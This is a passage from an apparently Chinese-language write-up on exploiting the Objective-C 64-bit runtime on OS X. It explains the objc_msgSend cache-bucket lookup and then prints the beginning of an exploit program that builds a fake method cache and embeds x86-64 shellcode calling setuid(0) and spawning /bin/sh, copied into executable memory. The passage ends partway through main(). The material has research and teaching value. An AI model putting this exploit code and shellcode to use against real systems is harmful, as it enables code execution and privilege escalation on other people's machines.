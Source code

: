 由此可见，andl命令会将结果扩展到64位。

之后，将与后的结果左移4位得到offset。将offset加到buckets的上。

初始时offset就指向来整个数组的最后。通过subq命令递减。

```
subq    $$16, %r10      // bucket--

```

从后向前来遍历buckets数组。如果命中了sel就可以跳到imp了。16就是我们bucket_t结构的大小。 说了这么多。接下来就来看看代码。

0x04 具体代码及细节说明
==============

* * *

完整代码如下：

```
/*
*   main.m
*   OC64exploit Demo
*
*   Author:    vvun91e0n
*   Date:      2015-05-25
*   Tested on: Mac OS X 10.10.3 （Darwin kernel version 14.3.0）& 10.10.4
*   Base on: nemo's source code @ www.phrack.com/papers/modern_objc_exploitation.html
*   Shellcode on: Dustin Schultz‘source code @ www.exploit－db.com/exploits/15618
*/

#import <Foundation/Foundation.h>
#define NUMBUCKETS 0x20000
#define MASK  0x20000
#define BASESEL 0x7fff80000509     //0x7fff907bb509 my "length" sel address
                                   //may change in different os or different app

struct fakecache {
    char pad[0x10];
    long bucketptr;
    long mask;
};

struct cacheentry {
    long sel;
    long rip;
};

char shellcode[] =
"\x41\xb0\x02\x49\xc1\xe0\x18\x49\x83\xc8\x17\x31\xff\x4c\x89\xc0"
"\x0f\x05\xeb\x12\x5f\x49\x83\xc0\x24\x4c\x89\xc0\x48\x31\xd2\x52"
"\x57\x48\x89\xe6\x0f\x05\xe8\xe9\xff\xff\xff\x2f\x62\x69\x6e\x2f"
"\x2f\x73\x68";

int main(int argc, const char * argv[])
{
    struct fakecache fc;
    char num[50];
    unsigned int slide;

    void *pshellcode = mmap(0, 0x33, PROT_EXEC | PROT_WRITE
                           | PROT_READ, MAP_ANON | MAP_PRIVATE, -1, 0);
    if (pshellcode == MAP_FAILED) {
        printf("[+] shellcode mmap failed\n");
        exit(1);
    }
    memcpy(pshellcode, shellcode, sizeof(shellcode));
```